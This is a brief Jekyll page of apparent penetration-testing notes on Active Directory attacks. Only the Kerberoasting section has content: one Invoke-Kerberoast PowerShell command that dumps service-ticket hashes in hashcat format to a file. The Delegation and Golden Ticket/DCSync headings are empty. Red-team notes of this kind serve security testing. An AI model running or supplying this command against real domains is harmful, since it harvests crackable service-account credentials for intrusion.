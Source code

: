 ```yaml
---
layout: default
title: AD Attacks
parent: Attacks
nav_order: 2
---
```


# AD Attacks
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Kerberoasting
Invoke-Kerberoast.ps1
```
Invoke-Kerberoast -OutputFormat hashcat 2>&1 | tee -filepath C:\Users\user\Downloads\kerb.txt
```


## Delegation Issues



## Golden Ticket and DCSync